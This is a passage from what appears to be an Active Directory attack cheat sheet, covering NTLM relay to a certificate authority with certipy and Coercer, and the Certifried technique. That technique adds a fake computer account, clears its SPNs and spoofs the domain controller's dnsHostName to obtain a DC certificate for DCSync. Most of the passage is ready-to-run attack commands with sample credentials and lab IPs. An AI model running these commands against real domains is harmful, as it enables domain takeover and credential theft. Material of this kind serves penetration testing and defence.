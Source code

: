5. NTLM hash should now be retrieved and win!

Step 1, 3 and 4 can be skipped with **certipy**
1. Use relay module in certipy
```bash
certipy relay -ca ca01.range.net -template 'DomainController'
```
2. Coerce with any coercion methods that you'd prefer.
```bash
py Coercer.py -t 192.168.86.182 -l 192.168.86.193
```
3. Authenticate with the retrieved certificate with certipy's auth module.
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.183
```

### Certifried
**User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a [DCSync](#dcsync) attack.

1. Add a fake computer account with [PowerMad](https://github.com/Kevin-Robertson/Powermad) or [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
```bash
# Powermad
New-MachineAccount -MachineAccount 'FakeComputer' -Password (ConvertTo-SecureString -AsPlainText -Force 'Password123') -Domain domain.local -DomainController dc.domain.local -Verbose

# impacket
addcomputer.py domain.local/john:'Passw0rd1' -method LDAPS -computer-name 'JOHNPC' -computer-pass 'Password123'
```

2. Clear the SPNs attributes that relates to the current `dnsHostName` attribute.
```bash
addspn.py --clear -t 'FakeComputer$' -u 'domain\user' -p 'password' 'DC.domain.local'
```

3. Change dnsHostName attribute matching the domain controller
```powershell
# RSAT
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

_Note that above steps 1-3 could be automated with my messy script [certifried.py](https://github.com/aniqfakhrul/certifried.py)_
```bash
python3 certifried.py range.net/peter:'Welcome1234' -dc-ip 192.168.86.182
```

4. Request certificate with [Certipy](https://github.com/ly4k/Certipy)
```bash
certipy req -u 'WIN-JLSLKICW6EP\$' -p 'PY2nc0ubG8WT' -target ca01.range.net -ca range-CA01-CA -template Machine
```
